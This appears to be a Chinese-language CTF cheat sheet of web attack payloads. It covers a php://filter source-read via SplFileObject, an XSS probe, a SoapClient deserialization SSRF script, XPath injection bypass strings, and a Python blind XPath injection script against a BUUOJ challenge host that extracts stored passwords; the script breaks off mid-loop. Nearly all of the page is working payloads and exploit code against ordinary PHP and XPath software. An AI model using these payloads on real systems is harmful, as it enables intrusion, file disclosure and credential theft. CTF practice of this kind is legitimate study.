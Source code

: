 使用filter读取全部内容
`sys=SplFileObject&xsx=php://filter/convert.base64-encode/resource=flag.php`

- xss
`sys=SplFileInfo&xsx=<script>alert(1)</script>`

- ssrf
```php
<?php
$a = new SoapClient(null,array('location'=>'http://192.168.61.140:2021/ki10Moc', 'uri'=>'http://192.168.61.140:2021'));
$b = serialize($a);
echo $b;
$c = unserialize($b);
$c->a();    // 随便调用对象中不存在的方法, 触发__call方法进行ssrf
?>
```

获取注释内容


## XPATH注入

```
1、注入点：URL、表单或其它信息上附带恶意的 XPath 查询代码
2、注入漏洞验证：输入id=1'、id=-1看页面是否返回报错信息
3、注入万能公式：id=1' or 1=1 or ''='
4、万能访问xml文档所有节点的payload:']|//*|//*['
```



https://xz.aliyun.com/t/7791?page=1
盲注脚本
```python
import requests
import time
url ='http://6d4635b8-447b-440a-be15-2abe57435b8c.node4.buuoj.cn:81/'


strs ='ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789'


flag =''
for i in range(1,100):
    for j in strs:

        #猜测根节点名称
        # payload_1 = {"username":"<username>'or substring(name(/*[1]), {}, 1)='{}'  or ''='</username><password>3123</password>".format(i,j),"password":123}
        #猜测子节点名称
        # payload_2 = "<username>'or substring(name(/root/*[1]), {}, 1)='{}'  or ''='</username><password>3123</password><token>{}</token>".format(i,j,token[0])

        #猜测accounts的节点
        # payload_3 ="<username>'or substring(name(/root/accounts/*[1]), {}, 1)='{}'  or ''='</username><password>3123</password><token>{}</token>".format(i,j,token[0])

        #猜测user节点
        # payload_4 ="<username>'or substring(name(/root/accounts/user/*[2]), {}, 1)='{}'  or ''='</username><password>3123</password><token>{}</token>".format(i,j,token[0])

        #跑用户名和密码
        # payload_username ="<username>'or substring(/accounts/user[1]/username/text(), {}, 1)='{}'  or ''='".format(i,j)
        payload_username ="<username>'or substring(/accounts/user[1]/password/text(), {}, 1)='{}'  or ''='".format(i,j)
```